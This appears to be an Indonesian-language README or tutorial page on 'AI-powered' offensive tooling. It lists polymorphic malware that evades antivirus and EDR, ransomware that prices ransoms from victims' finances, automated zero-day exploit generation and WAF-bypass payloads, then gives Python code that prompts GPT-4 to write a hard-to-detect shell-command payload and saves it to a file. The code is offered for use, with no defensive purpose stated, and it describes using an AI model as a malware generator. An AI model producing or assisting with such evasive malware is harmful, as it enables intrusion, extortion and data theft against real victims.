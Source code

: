 ### **🔹 2. Polymorphic Malware dengan AI**  
✅ **Mengubah kode dirinya sendiri** untuk menghindari deteksi AV & EDR.  
✅ **Menggunakan GANs (Generative Adversarial Networks)** untuk menghasilkan variasi baru dari kode malware.  

### **🔹 3. AI-Powered Ransomware**  
✅ **Menganalisis sistem korban** untuk mengenkripsi file paling sensitif terlebih dahulu.  
✅ **Menentukan jumlah tebusan berdasarkan analisis keuangan korban.**  

### **🔹 4. AI-Powered Zero-Day Exploitation**  
✅ **Menganalisis patch terbaru** untuk menemukan celah keamanan baru.  
✅ **Menggunakan AI untuk membuat Proof-of-Concept (PoC) exploit otomatis.**  

### **🔹 5. AI-Driven WAF Bypass**  
✅ **Menggunakan NLP untuk memahami pola filtering WAF.**  
✅ **Membuat payload SQLi, XSS, RCE yang sulit dideteksi.**  

---

## **📌 Contoh Source Code (SC) AI-Powered Exploits & Payloads**  

### **1️⃣ AI-Powered Polymorphic Malware (Python + GPT-4 API)**  
Kode ini menggunakan **GPT-4 untuk membuat payload yang berubah-ubah setiap kali dijalankan.**  

```python
import openai
import random

# API Key OpenAI (Gunakan dengan risiko sendiri)
API_KEY = "YOUR_OPENAI_API_KEY"

def generate_payload():
    prompt = "Buatkan payload Python yang dapat menjalankan perintah shell dengan cara yang sulit terdeteksi AV."
    
    response = openai.ChatCompletion.create(
        model="gpt-4",
        messages=[{"role": "system", "content": prompt}],
        temperature=0.9  # Memastikan variasi output
    )

    return response['choices'][0]['message']['content']

# Generate payload polymorphic
payload_code = generate_payload()

# Simpan ke file
with open("payload.py", "w") as f:
    f.write(payload_code)

print("[+] Payload berhasil dibuat!")
```

